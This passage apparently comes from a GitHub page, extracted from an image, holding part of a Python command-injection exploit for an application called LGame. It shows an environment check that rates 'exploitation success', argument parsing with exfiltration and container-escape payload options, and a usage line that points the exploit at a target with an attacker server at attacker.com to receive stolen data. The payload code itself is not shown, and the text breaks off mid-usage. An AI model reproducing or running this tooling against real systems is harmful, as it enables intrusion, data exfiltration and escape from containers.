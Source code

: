 ```python
    """
    Check if running in a vulnerable environment
    """
    import os
    import platform
    
    print("[*] Environment validation:")
    print(f"    OS: {platform.system()} {platform.release()}")
    print(f"    Headless: {os.environ.get('DISPLAY', 'Not set')}")
    print(f"    Container: {'Yes' if os.path.exists('/.dockerenv') else 'Unknown'}")
    
    # Check for GUI availability
    try:
        import tkinter
        tkinter.Tk().withdraw()
        print(f"    GUI Available: Yes (Lower exploitation success rate)")
    except:
        print(f"    GUI Available: No (Higher exploitation success rate)")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="LGame Command Injection Exploit")
    parser.add_argument("-u", "--url", type=str, required=True, 
                       help="Target LGame application URL (e.g., http://127.0.0.1:8080)")
    parser.add_argument("-p", "--payload", type=str, required=True,
                       choices=['windows_info', 'windows_exfil', 'macos_info', 'macos_exfil', 'linux_escape'],
                       help="Payload type based on target platform")
    parser.add_argument("-s", "--server", type=str, required=True,
                       help="Attacker server for data exfiltration (e.g., http://attacker.com)")
    parser.add_argument("-x", "--proxy", type=str, 
                       help="Proxy for requests (e.g., http://127.0.0.1:8080)")
    parser.add_argument("--check-env", action='store_true',
                       help="Validate current environment for vulnerability conditions")
    
    args = parser.parse_args()
    
    if args.check_env:
        validate_environment()
    
    exploit_lgame(args.url, args.payload, args.server, args.proxy)
```

### Usage Examples:

**Test Windows container:**

```bash
python3 lgame_exploit.py -u http://game-server:8080 -p windows_info -s http://attacker.com
```

**Test macOS CI environment:**
